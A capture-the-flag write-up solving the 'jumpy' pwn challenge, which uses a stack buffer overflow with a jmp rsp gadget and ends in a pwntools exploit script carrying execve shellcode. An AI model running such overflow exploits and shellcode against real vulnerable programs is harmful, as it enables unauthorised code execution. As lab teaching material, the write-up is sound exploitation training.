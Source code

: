 # Jumpy [Pwn]

Attached file:[here](/datas/jumpy)

Output of checksec

```sh
$ checksec jumpy
```

![Checksec](datas/checkseckjumpy.png)

The NX is disabled so we can run code on the stack.

![Exec](datas/ohjumpy.png)

Jumpy C code obtained by reverse engineering with ghidra.

![Cdecompile](datas/CJumpy.png)

In the binary, there is no system function and no function to read the flag. As the stack is executable, we can push shellcode on it and execute it.

First, we need to control the RIP.

I have placed a breakpoint on the ret of the main function.

![disasmain](datas/disasmain.png)

With 0x38 we can reach the RIP.

For a test, I send this load: "A "*0x38 + "BBBB"

![jumpRIP](datas/jumpRIP.png)

The RIP is well reached.

We can now execute our shellcode on the stack.

payload = "A "*0x38 + RSP_addr + shellcode

We will push the shellcode on the RSP and call the RSP address in the RIP to be able to execute the shellcode.

We don't have the address of the RSP but by doing a little research in the binary we have an instruction that makes a jump on the RSP, that will do the trick.

![jmprsp](datas/jmprsp.png)

With the address of this instruction in the RIP, we can make a jump into the RSP and execute what is inside.


payload = "A"*0x38 + p64(0x00401142) + shellcode

Exploit:

```python
from pwn import *

sh = process("./jumpy")
#sh = remote("34.65.228.239",1337)
shellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = b"A"*0x38 + p64(0x00401142) + shellcode

print(sh.recv().decode())
sh.sendline(payload)
sh.interactive()
```
Result:

![Jumpyflag](datas/flag.png)
